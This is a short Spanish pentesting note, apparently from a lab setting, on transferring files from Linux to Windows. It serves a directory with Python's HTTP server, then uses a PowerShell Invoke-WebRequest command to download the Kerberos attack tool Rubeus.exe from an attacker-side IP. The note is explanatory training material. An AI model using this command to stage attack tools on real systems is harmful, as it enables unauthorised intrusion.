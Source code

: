 # Transferencia de Archivos: Linux a Windows

Esta entrada describe técnicas generales para transferir archivos desde un sistema Linux a uno Windows. Una de las técnicas más sencillas utiliza un servidor HTTP en Linux y la herramienta de PowerShell **Invoke-WebRequest (iwr)** en Windows para descargar los archivos.

## Técnica: IWR (Invoke-WebRequest)

### 1. Levantar un Servidor HTTP en Linux

En la máquina Linux, se puede iniciar un servidor HTTP simple usando Python para que el contenido del directorio actual sea accesible:

```bash
python3 -m http.server 80
```

### 2. Descargar el Archivo en Windows

En la máquina Windows, se utiliza PowerShell para descargar el archivo desde el servidor Linux. Por ejemplo, para descargar un archivo llamado **Rubeus.exe**:

```powershell
iwr -uri http://10.10.14.21/Rubeus.exe -OutFile Rubeus.exe
```

- **-uri**: Especifica la URL del archivo en el servidor Linux.
- **-OutFile**: Define el nombre y ubicación donde se guardará el archivo descargado en Windows.

